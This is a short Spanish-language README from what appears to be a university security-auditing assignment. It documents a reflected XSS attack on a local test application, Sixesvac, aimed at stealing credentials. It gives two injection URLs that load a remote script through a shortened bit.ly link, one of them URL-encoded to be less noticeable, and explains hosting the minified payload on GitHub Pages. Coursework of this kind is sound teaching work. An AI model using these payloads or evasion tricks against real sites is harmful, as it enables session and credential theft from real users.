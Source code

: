 # sixesvac-xss
Ejemplo de ataque de XSS para el robo de credenciales en la aplicación de prueba Sixesvac, para la asignatura de Auditoría e Xestión de Seguridade.

## URL a usar para el ataque XSS
1. `http://localhost:8080/privado/login.php?err_id=<script src="http://bit.ly/3amEhNK"></script>` (45 caracteres en parámetro de consulta)
3. `http://localhost:8080/privado/login.php?err_id=%3C%73%63%72%69%70%74%20%73%72%63%3D%22%68%74%74%70%3A%2F%2Fbit%2E%6C%79%2F3amEhNK%22%3E%3C%2F%73%63%72%69%70%74%3E` (115 caracteres en parámetro de consulta; MÁS discreto mediante codificación URL)

## Cómo funciona
Se utiliza XSS para cargar un script subido a GitHub Pages, un servicio gratuito de GitHub que publica recursos estáticos de un repositorio de GitHub. Para acortar el URL se utiliza un acortador de URL gratuito. Además, el script diseñado para ejecutar el ataque está minificado lo máximo posible, sacrificando compatibilidad con Internet Explorer y navegadores más antiguos donde es necesario, para usar sintaxis y funciones más nuevas que redundan en un código más breve.

## Herramientas usadas
http://bit.ly

https://onlinetexttools.com/url-encode-text

https://jscompress.com/

